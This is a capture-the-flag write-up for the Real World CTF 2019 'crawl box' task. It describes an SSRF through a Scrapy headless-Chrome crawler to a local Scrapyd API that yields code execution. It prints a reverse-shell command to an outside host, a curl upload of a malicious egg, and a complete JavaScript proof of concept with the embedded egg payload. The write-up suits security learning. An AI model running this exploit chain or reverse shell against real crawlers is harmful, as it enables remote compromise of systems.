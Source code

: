 # crawl box - Real World CTF 2019 Quals

## Introduction

The crawl box is a pwn task. The goal is to exploit a remote code execution
vulnerability on an up-to-date Scrapy crawler.

Only a website is provided.


## Reconnaissance

The website takes an URL and prints every links stored on this URL.

The bot requests pages with the following user agent: `Scrapy/ChromeHeadless
(+https://scrapy.org)`. This gives two important informations:
1. The bot uses Scrapy, an open-source framework
2. Scrapy uses Chrome

The crawler interprets JavaScript code, It can be used to bypass restrictions
put on the initial form.

The [Scrapy project's Github page](https://github.com/scrapy) mentions different
side projects. One of them is [Scrapyd](https://github.com/scrapy/scrapyd). Its
introduction mentions an HTTP JSON API.


## Scrapyd

The [documentation of Scrapyd](https://scrapyd.readthedocs.io/en/stable/)
introduces it as an API to deploy scrapy spiders.

It is possible to ensure that the crawler uses Scrapyd by making it crawl a page
that contains a JavaScript redirection to Scrapyd's default port.
```html
<script> docucument.location.href = "http://localhost:6800/"; </script>
```

Scrapyd's documentation mentions that the `addversion.json` endpoint [accepts a
Python egg containing
code](https://scrapyd.readthedocs.io/en/stable/api.html#addversion-json) as a
parameter, hinting a potential RCE through SSRF.

The Python egg we created is very simple and only executes a single command:
```sh
bash -c 'sh</dev/tcp/entei.forgotten-legends.org/12345'
```

## Exploitation

Once the Python egg is ready, the API can be tester with the following cURL
command:
```sh
curl http://localhost:6800/addversion.json \
	-F project=myproject \
	-F version=r23 \
	-F egg=@pwnmod-0.1-py3.7.egg
```

Soon after, the egg is executed, which means the request is ready for
exploitation.

The easiest and fastest way to make a script that replays this request is to use
Burp's automatic CSRF creation feature.

When sending the link to the crawler, it executes the JavaScript code, calls the
API, which executes the Python egg and connects to a server we control.

**Flag**: `rwctf{97053f58121d36499788117b60472e9c}`


## Appendices

### ssrf.html
The following page sends an AJAX request to Scrapyd's API to gain RCE:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
     function submitRequest()
     {
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http://localhost:6800/addversion.json", true);
       xhr.setRequestHeader("Accept", "*\/*");
       xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=------------------------66292bd3c64e9656");
       xhr.withCredentials = true;
       var body = "--------------------------66292bd3c64e9656\r\n" + 
                  "Content-Disposition: form-data; name=\"project\"\r\n" + 
                  "\r\n" + 
                  "myproject\r\n" + 
                  "--------------------------66292bd3c64e9656\r\n" + 
                  "Content-Disposition: form-data; name=\"version\"\r\n" + 
                  "\r\n" + 
                  "r23\r\n" + 
                  "--------------------------66292bd3c64e9656\r\n" + 
                  "Content-Disposition: form-data; name=\"egg\"; filename=\"pwnmod-0.1-py3.7.egg\"\r\n" + 
                  "Content-Type: application/octet-stream\r\n" + 
                  "\r\n" + 
                  "PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\xE5\xE8\x89\xFCt\x00\x00\x00\xB2\x00\x00\x00\x11\x00\x00\x00EGG-INFO/PKG-INFO\xF3M-ILI\x2CI\xD4\x0DK-\x2A\xCE\xCC\xCF\xB3R0\xD43\xE0\xF2K\xCCM\xB5R\x28\x28\xCF\xCB\xCDO\xE1\x82\xCB\x18\xE8\x19r\x05\x97\xE6\xE6\x26\x16UZ\x29\x84\xFAy\xFB\xF9\x87\xFBqy\xE4\xE7\xA6\xEA\x16\x24\xA6\xA7\x22\x84\x1CKK2\xF2\x8B\xD0\xF9\xBA\xA9\xB9\x89\x999\x08Q\x9F\xCC\xE4\xD4\xBCb\x24m.\xA9\xC5\xC9E\x99\x05\x25\x60\xBB\x60\x82\x019\x89\x25i\xF9E\xB9\x08\x11\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\x3B\x280\x92h\x00\x00\x00\xB5\x00\x00\x00\x14\x00\x00\x00EGG-INFO/SOURCES.txtm\xCAA\x0E\x82\x40\x0CF\xE1\xBDwa8\x84ABL\x84\x40\x5Cw\xC1\xFC\x92\xC6\xB1m\xA0\x2As\x7B\xC2\x1A\xB6\xEF\x7B\x0B\xFCk\xC1\xF2\x05\xAB\x25e/\x89X\xD8\x89\xF6f\x7F\xF9h\x0C\x98\xA6\x82\xE5\xA5ew\xAF\x8B\xE6qk\x0F0\xB4\xCF\xFEZ\x0D\xC1W\x3FX\x84A\x22d\xCC\x94X\xDE\xCB\xE9\x04\xF19\x93\x29\x8B\x9F\x0F\xAEF\x09\x3F\xA4\x5D7PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\x93\x06\xD72\x03\x00\x00\x00\x01\x00\x00\x00\x1D\x00\x00\x00EGG-INFO/dependency_links.txt\xE3\x02\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180OF\x1F\x010\x1F\x00\x00\x00\x1D\x00\x00\x00\x19\x00\x00\x00EGG-INFO/entry_points.txt\x8B.N.J\x2C\xA8\x8C\xE5\x2AN-\x29\xC9\xCCK/V\xB0UH\xAD\x28\xC8\xC9\xCF\x2C\xE1\xE2\x02\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180Oa\x3A\x8B\xFA\x0A\x00\x00\x00\x08\x00\x00\x00\x16\x00\x00\x00EGG-INFO/top_level.txtK\xAD\x28\xC8\xC9\xCF\x2C\xE1\x02\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\x93\x06\xD72\x03\x00\x00\x00\x01\x00\x00\x00\x11\x00\x00\x00EGG-INFO/zip-safe\xE3\x02\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x81\x180O5\x23\xDF\x20Q\x00\x00\x00P\x00\x00\x00\x13\x00\x00\x00exploit/__init__.pySV\xD4/-.\xD2O\xCA\xCC\xD3O\xCD\x2BS\x28\xA8\x2C\xC9\xC8\xCF\xE3\xCA\xCC-\xC8/\x2AQ\xC8/\xE6\xE2\xCA/\xD6\x2B\xAE\x2C.I\xCD\xD5PJJ\x2C\xCEP\xD0MVP/\xCE\xB0\xD1OI-\xD3/I.\x00\xEA\xD4\x2B\xC9\xD674261UW\xD2\xE4\x02\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\xAB\xB6\xB46\xB3\x00\x00\x00\xCC\x00\x00\x00\x2B\x00\x00\x00exploit/__pycache__/__init__.cpython-37.pycs\xE2\xE5\xE5b\x00\x82\xE6\xFBu\xB1\x01\x40\xFA1\x03\x12\x60\x06b\x07\x20.\x16\x03\x12\x29\x0C\x29\x8C9\x0CQ\x0C\xA9\x0C\x0B\x18S\x98\x1622\x02\xF9\xC1\x0C\x9A\xCC/A\x2A\xFD\xAA\x14\x93\x12\x8B3\x14t\x93\x15\xD4\x8B3l\xF4SR\xCB\xF4K\x92\x0B\xF4\x932\xF5J\xB2\xF5\x0D\x8D\x8CML\xD55\x99n1\xE5\x17\xDFb\x2B\xAE\x2C.I\xCD\x5D\xC9P\xC4\x02\xD4\x08\x26~\x19\x24\x95f\xE6\xA4\xE8\x27\xA5d\x16\x97\xE8\xE5d\xE6\x95V\xE8VX\x98\xC5\x9B\x99\xE8\xA7\xA6\xA7\xEB\xA7V\x14\xE4\xE4g\x96\xE8\xC7\xC7g\xE6e\x96\xC4\xC7\xEB\x15T\xDE\xE2\xB0\xC9\xCDO\x29\xCDI\xB5c\x02\xB9\x0FDp0\x01\x00PK\x03\x04\x14\x00\x00\x00\x08\x00C\x110O\x17\xC8\x8C\xF2\x60\x00\x00\x00r\x00\x00\x00\x0F\x00\x00\x00pwn/__init__.py\x25\x8C1\x0E\x840\x0C\xC0\xF6\xBC\x22\x94\x05\x16\xB2\x23\xF1\x96\x2A\xC7\x15\xD1\x21IE\x02\x12\xBF\x3FNx\xB6\xDDwt\xFAA\x9F\xAAT\xF4\xC2v\xC7n\x0AU\x9A\x1D\x81\xE6\x00\xF0-\x1B\x0AW\x1D\xC6\x19\xF0\xC1\x7C\xF2\xDB\xA3\xC8\x90\xC2\xCEuG\x0Ai\xC4\xCCi\x7C\xEC\xBAa\xCE\xCARr\xC6e\xC1\xF4/\xD3\x1B\xBE\x13\xF8\x01PK\x03\x04\x14\x00\x00\x00\x08\x00\x82\x180O\x880\x0FM\xEB\x00\x00\x000\x01\x00\x00\x27\x00\x00\x00pwn/__pycache__/__init__.cpython-37.pycs\xE2\xE5\xE5b\x00\x82\xFB\x97\xEAb\x8B\x80\xF4c\x06\x24\xC0\x04\xC4\x0E\x40\x5C\xAC\x04\x24R\x18R\x18s\x18\xA2\x18R\x98R\x98\x5B\x18\xA2\x18S\x81t6S\x91\x5C\x2Ac3\x03\x23P.\x98A\x93\xE5\x25H\x97_2\xB2\x19\xCC\x40\xEC\x0C2\x83\x0FH\x940\x2C\x60La\x5C\xC8\x08T\xCF\x00T\xCF\xE4W\xC5W\x92_\x9A\x9C\xA1\xA0_\x92\x5B\xA0\x9F\x98\x98\xA8\xC9t\x8B\x29\xBF\xF8\x16\x5BqeqIj\xEEJ\x86\x22\x16\xA0.0\xF1K\x27\xA943\x27E\x3F\x29\x25\xB3\xB8D/\x273\xAF\xB4B\xB7\xC2\xC2\x2C\xDE\xCCD\x3F5\x3D\x5D\xBF\xA0\x3CO\x3F\x3E\x3E3/\xB3\x24\x3E\x5E\xAF\xA0\xF2\x16Knbf\x1E\x2B\xC8\x5E\x90\x27\x18\x18\x8B\xD8\x80\xA4\x26s\x11\x88\x07f\xDF\xE2\x88\x8F\xCFK\xCCM\x8D\x8FG\xD8\x01\x21X\xC1\xB26\xB9\xF9\x29\xA59\xA9v\x20\x0D\xC5\x20\x0D\x1C\xCC\x1C\x2C\x1C\x8C\x00PK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\xE5\xE8\x89\xFCt\x00\x00\x00\xB2\x00\x00\x00\x11\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\x00\x00\x00\x00EGG-INFO/PKG-INFOPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\x3B\x280\x92h\x00\x00\x00\xB5\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\xA3\x00\x00\x00EGG-INFO/SOURCES.txtPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\x93\x06\xD72\x03\x00\x00\x00\x01\x00\x00\x00\x1D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\x3D\x01\x00\x00EGG-INFO/dependency_links.txtPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180OF\x1F\x010\x1F\x00\x00\x00\x1D\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\x7B\x01\x00\x00EGG-INFO/entry_points.txtPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180Oa\x3A\x8B\xFA\x0A\x00\x00\x00\x08\x00\x00\x00\x16\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\xD1\x01\x00\x00EGG-INFO/top_level.txtPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\x93\x06\xD72\x03\x00\x00\x00\x01\x00\x00\x00\x11\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\x0F\x02\x00\x00EGG-INFO/zip-safePK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x81\x180O5\x23\xDF\x20Q\x00\x00\x00P\x00\x00\x00\x13\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81A\x02\x00\x00exploit/__init__.pyPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\xAB\xB6\xB46\xB3\x00\x00\x00\xCC\x00\x00\x00\x2B\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\xC3\x02\x00\x00exploit/__pycache__/__init__.cpython-37.pycPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00C\x110O\x17\xC8\x8C\xF2\x60\x00\x00\x00r\x00\x00\x00\x0F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81\xBF\x03\x00\x00pwn/__init__.pyPK\x01\x02\x14\x03\x14\x00\x00\x00\x08\x00\x82\x180O\x880\x0FM\xEB\x00\x00\x000\x01\x00\x00\x27\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x81L\x04\x00\x00pwn/__pycache__/__init__.cpython-37.pycPK\x05\x06\x00\x00\x00\x00\x0A\x00\x0A\x00\xC2\x02\x00\x00\x7C\x05\x00\x00\x00\x00\r\n" + 
                  "--------------------------66292bd3c64e9656--\r\n";
       var aBody = new Uint8Array(body.length);
       for (var i = 0; i < aBody.length; i++)
         aBody[i] = body.charCodeAt(i); 
       xhr.send(new Blob([aBody]));
     }

     submitRequest()
    </script>
  </body>
</html>
```
